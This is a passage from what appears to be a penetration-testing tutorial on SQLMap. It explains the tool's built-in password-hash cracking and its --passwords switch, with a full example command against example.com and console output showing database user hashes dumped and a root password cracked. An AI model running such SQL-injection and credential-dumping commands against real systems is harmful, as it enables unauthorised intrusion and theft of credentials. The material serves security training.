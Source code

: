 ```bash
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
...SNIP...
```
Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented **support for cracking 31 different types of hash algorithms**, with an included dictionary containing ``1.4 million`` entries. Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.
### DB Users Password Enumeration and Cracking
Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., **connection credentials**). 

To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```
>[!Note]